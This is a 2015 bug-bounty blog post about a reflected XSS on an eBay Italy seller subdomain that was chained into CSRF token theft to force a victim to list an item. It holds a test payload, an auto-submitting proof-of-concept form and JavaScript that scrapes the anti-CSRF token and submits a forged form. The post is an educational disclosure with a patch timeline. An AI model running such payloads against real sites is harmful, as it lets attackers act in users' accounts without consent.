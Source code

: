 ```yaml
---
layout: post

title: "Making you sell what I want: Story of an Ebay XSS"
subtitle: ""
cover_image: ebay/ebay-sign.png

excerpt: "Reflected
 XSS vulnerability could be leveraged to make the victim sell unwanted items "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png


---
```


### TL;DR
A XSS vulnerability in Ebay can be exploited by an attacker to bypass CSRF protection and make a victim sell unwanted items.
This is a pretty basic technique but it could be interesting for people which have just entered in the Bug Bounty world.

### XSS on Ebay
Let's talk about my first bug hunting experience.
First of all why have I chosen to test Ebay? Simple:

- The Ebay website was first **developed lots of time ago** when the word ``"security"`` was not so popular and there weren't beatiful frameworks which prevents developer to make shit happen.
- Ebay is a pretty high level profile website and has a **Bug Bounty program** which awards with a mention in their Security Researchers Acknowledgement page;
- Ebay doens't offer a cash award (yes this doesn't seem to be a pro but this means that **not so many people have tested it** unlike Google and Facebook);

When trying to find a security issue the best place to **search** is **where other people hasn't already looked at**, so let's forgot for a moment the main page and let's search in some other subdomains. Two great tools to discover subdomains are [dnsenum](https://github.com/fwaeytens/dnsenum) and [fierce](http://tools.kali.org/information-gathering/fierce). Looking around I found **csr.ebay.it** which seems to handle the process of selling items as a merchant. Between the different requests sent to this domain a POST request to ``http://csr.ebay.it/cse/results.jsf `` caught my attention because it has a ``keyword`` parameter which is reflected in the response.
<div class="full zoomable"><img src="/images/ebay/burp_ebay.png"></div>
A good payload which I use to test for XSS is  ``xxx"><svg/onload=alert(1)>`` because it provides two functionalities:

1. The string ``xxx``  is very unlikely to be present in the page so by **inspecting the source code** of the HTML page and searching for ``xxx`` I can discover the **location where my input has been reflected**;
2. The rest of the payload ``"><svg/onload=alert(1)>`` may **trigger a XSS vulnerability** popping up an alert box;

So we intercept the request to http://csr.ebay.it/cse/results.jsf  using [Burp](http://portswigger.net/burp/) edit the ``keyword`` field with ``"><svg/onload=alert(1)>``, submit the request and wait for:
<div class="full zoomable"><img src="/images/ebay/ebay_xss.png"></div>
Yay!!! This is our lucky day but wait a minute where is the session cookie?
<div class="full zoomable"><img src="/images/ebay/session_cookie.png"></div>
Oh no. The session cookie is set ``HttpOnly`` this means that it is **not accessible through javascript**, bye bye session hijacking but let's see what we could do with it.
Let's first create our PoC page; this is very straightforward, we just need to create an html form containing the fields and the value which we want to submit and submit it as soon as the user visit the page.

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <script src="https://code.jquery.com/jquery-2.1.3.min.js"> </script>
  </head>
  <body>
    <form id="myform" action="http://csr.ebay.it/cse/results.jsf?sbh=true" method="POST">
      <input name="keywords" id="keywords" value="&quot;><svg/onload=alert(document.domain+document.cookie)>" >
      <input name="btnStartGandalf" id="btnStartGandalf" value="Inizia" >
      <input name="startPage" id="startPage" value="true" >
      <input name="pageName" id="pageName" value="start" >
    </form>
  </body>
</html>

<script>
$.ready(
    $('#myform').submit()
      );
</script>
{% endhighlight %}

### From XSS to CSRF

I won't bother you on what a CSRF attack is, there are [very good explanation](http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx/) out there, the only thing to know is that this attack can be exploited to **make the user do unwanted actions** and can be prevented by attaching a hidden field ``csrf_token`` to the form which will be submitted.
Let's recapt what we know so far:

1. we can run javascript code through the **XSS in crs.ebay.it**;
2. crs.ebay.it domain enables the user to **sell items**;
3. the selling functionality is **protected against CSRF** through a hidden token in the form;

Attack plan: exploit the XSS to **exfiltrate the CSRF token** and use it to make a request in the behalf of the user.
We modify the payload before and instead of displaying an alert message (``"><svg/onload=alert(1)>``) we include a script which:

1. Send a GET request to the page containing the token;
2. Parse the page to get the token value (in our case the javax.faces.ViewState field);
3. Send a post request to ``http://csr.ebay.it/cse/list.jsf`` to publish the product with the fields which we have set in the form validated with the csrf token which we have exfiltrated before;


{% highlight javascript %}

//Generate the form which will be send to sell the item
var f = document.createElement("form");
f.setAttribute('id',"myform");
f.setAttribute('method',"post");
f.setAttribute('action',"http://csr.ebay.it/cse/list.jsf");

var i1 = document.createElement("input");
i1.setAttribute('type',"text");
i1.setAttribute('name',"title");
i1.setAttribute('value',"Iphone6");

...Add here all the other fields for the item to sell

var i2= document.createElement("input");
i2.setAttribute('type',"text");
i2.setAttribute('name',"javax.faces.ViewState");
i2.setAttribute('id',"javax.faces.ViewState");
i2.setAttribute('value',"");


var s = document.createElement("input");
s.setAttribute('type',"submit");
s.setAttribute('value',"Submit");

document.body.appendChild(f);
f.appendChild(i1);
f.appendChild(i2);
f.appendChild(s);


$.ready(
    $.ajax({
      url:"http://csr.ebay.it/cse/list.jsf?usecase=create&mode=AddItem&categoryId=30095",
      type: 'get',
      //1 sending a get request to the page containing the token
      success: function(data,status){
        var html = $.parseHTML(data);
        //2 parsing the html to find the token value
        var token = $(html).find( 'input[name="javax.faces.ViewState"]' ).val();
        console.log(token)
        //3 setting this value to the csrf_token field in the constructed form
        $("input[id='javax.faces.ViewState']").val(token)
        //4 submitting the form
        $('#myform').submit()
      }
    })
);

{% endhighlight %}

Hooray!! We have made the victim which click on our link sell an Iphone 6.
**Kudos to the Ebay security team** which has been very responsive and patched the vulnerability in a week.
I think that at the moment the security level of Ebay is not enough strong considering the sensitive informations and the profitable actions which the platform provide, so I keep wondering why Ebay hasn't already started a  payment based Bug Bounty program on platforms like Hackerone or Bugcrowd.

- 7 April 2015 Vulnerability reported to Ebay Security Team
- 15 April 2015 Vulnerability patched
- 25 May 2015 Added to the Responsible Disclosure Acknowledgements page
- 18 June 2015 Public disclosure


